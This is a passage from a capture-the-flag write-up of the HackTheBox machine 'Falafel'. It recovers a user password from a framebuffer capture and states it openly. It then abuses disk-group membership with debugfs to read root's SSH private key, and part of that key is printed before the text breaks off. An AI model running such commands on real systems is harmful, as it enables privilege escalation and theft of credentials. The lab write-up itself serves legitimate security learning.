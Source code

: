```perl
}
 
close OUT;
```

```bash
root@sushi:~/hackthebox/falafel# ./iraw2png.pl 1176 885 < screen.raw > fb0.png
pnmtopng: 5 colors found
```

![](pics/yossipasswd.PNG)

So now that we can ssh in as yossi with the password MoshePlzStopHackingMe! what groups are we in? Disks is not a good one. 
```bash 
yossi@falafel:~$ groups
yossi adm disk cdrom dip plugdev lpadmin sambashare
yossi@falafel:~$ 
```
Being in the disk group you can read any file with debugfs so let's read the root users ssh key:
```bash
yossi@falafel:~$ lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0    8G  0 disk 
├─sda1   8:1    0    7G  0 part /
├─sda2   8:2    0    1K  0 part 
└─sda5   8:5    0 1022M  0 part [SWAP]
sr0     11:0    1 1024M  0 rom  
yossi@falafel:~$ debugfs -w /dev/sda1 -R "cat /root/.ssh/id_rsa"
debugfs 1.42.13 (17-May-2015)
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAyPdlQuyVr/L4xXiDVK8lTn88k4zVEEfiRVQ1AWxQPOHY7q0h
b+Zd6WPVczObUnC+TaElpDXhf3gjLvjXvn7qGuZekNdB1aoWt5IKT90yz9vUx/gf
v22+b8XdCdzyXpJW0fAmEN+m5DAETxHDzPdNfpswwYpDX0gqLCZIuMC7Z8D8Wpkg
BWQ5RfpdFDWvIexRDfwj/Dx+tiIPGcYtkpQ/UihaDgF0gwj912Zc1N5+0sILX/Qd
UQ+ZywP/qj1FI+ki/kJcYsW/5JZcG20xS0QgNvUBGpr+MGh2urh4angLcqu5b/ZV
dmoHaOx/UOrNywkp486/SQtn30Er7SlM29/8PQIDAQABAoIBAQCGd5qmw/yIZU/1
eWSOpj6VHmee5q2tnhuVffmVgS7S/d8UHH3yDLcrseQhmBdGey+qa7fu/ypqCy2n
gVOCIBNuelQuIAnp+EwI+kuyEnSsRhBC2RANG1ZAHal/rvnxM4OqJ0ChK7TUnBhV
+7IClDqjCx39chEQUQ3+yoMAM91xVqztgWvl85Hh22IQgFnIu/ghav8Iqps/tuZ0
/YE1+vOouJPD894UEUH5+Bj+EvBJ8+pyXUCt7FQiidWQbSlfNLUWNdlBpwabk6Td
OnO+rf/vtYg+RQC+Y7zUpyLONYP+9S6WvJ/lqszXrYKRtlQg+8Pf7yhcOz/n7G08
kta/3DH1AoGBAO0itIeAiaeXTw5dmdza5xIDsx/c3DU+yi+6hDnV1KMTe3zK/yjG
UBLnBo6FpAJr0w0XNALbnm2RToX7OfqpVeQsAsHZTSfmo4fbQMY7nWMvSuXZV3lG
```
